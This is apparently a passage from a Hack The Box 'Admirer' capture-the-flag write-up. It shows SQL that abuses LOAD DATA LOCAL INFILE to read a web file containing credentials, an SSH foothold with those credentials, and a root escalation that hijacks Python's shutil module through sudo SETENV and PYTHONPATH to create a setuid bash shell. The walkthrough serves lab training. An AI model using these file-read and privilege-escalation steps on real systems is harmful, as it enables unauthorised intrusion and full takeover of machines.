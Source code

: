 #### Load `index.php` to `lfi_table`
Execute following SQL using `SQL command`
```
LOAD DATA local INFILE '../index.php' INTO TABLE lfi_table fields TERMINATED BY "\n";
```

#### Read `index.php` from `lfi_table`
Execute following SQL using `SQL command`
```
SELECT * FROM lfi_table;
```

#### Use discovered credentials to gain foothold over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ ssh waldo@$TARGET
waldo@10.129.229.101's password: 
Linux admirer 4.9.0-19-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Fri May 23 16:20:43 2025 from 10.10.14.161
waldo@admirer:~$ id
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)
```

### Escalate to `root` user by hijacking a Python module in script run with `root` privileges

#### Discover `SETENV` permission for `/opt/scripts/admin_tasks.sh`
```
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

#### Hijack `shutil` Python module
`/opt/scripts/admin_tasks.sh` is calling `/opt/scripts/backup.py` which is executing `from shutil import make_archive`. With `SETENV` we will set `PYTHONPATH` to directory that contains `make_archive` that will create root shell.
```
waldo@admirer:~$ { cat <<'EOF'> /tmp/shutil.py
import os
def make_archive(*args, **kwargs):
    os.system("/bin/cp /bin/bash /tmp/root_shell; /bin/chmod +s /tmp/root_shell")
    exit
EOF
} && echo 6 | sudo -E PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh && sleep 1 && /tmp/root_shell -p

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
```